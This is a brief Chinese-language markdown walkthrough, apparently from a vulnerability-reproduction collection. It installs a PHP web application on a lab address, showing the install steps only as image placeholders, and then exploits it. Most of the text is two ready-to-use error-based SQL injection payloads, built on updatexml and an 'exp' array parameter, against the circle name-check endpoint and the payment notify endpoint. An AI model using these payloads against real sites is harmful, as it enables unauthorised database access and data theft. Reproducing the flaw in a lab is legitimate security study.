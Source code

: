 # 实战
在浏览器输入
```
http://IP:PORT/install/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)

![image]({path}/4.png)

![image]({path}/5.png)




## 攻击实战
在浏览器输入
```
http://192.168.1.170:7777/circle/index.php?op=check_circle_name&name[0]=exp&name[1]=1)%20or%20updatexml(1,concat(0x5c,md5(1)),1)%23--
```
![image]({path}/6.png)

使用火狐的插件hackbar

```
http://192.168.1.170:7777/index.php?act=payment&op=notify
```

```
out_trade_no%5B0%5D=exp&out_trade_no%5B1%5D=%20%201=1%20and%20(updatexml(1,concat(0x3a,(select%20md5(1))),1))
```

![image]({path}/7.png)
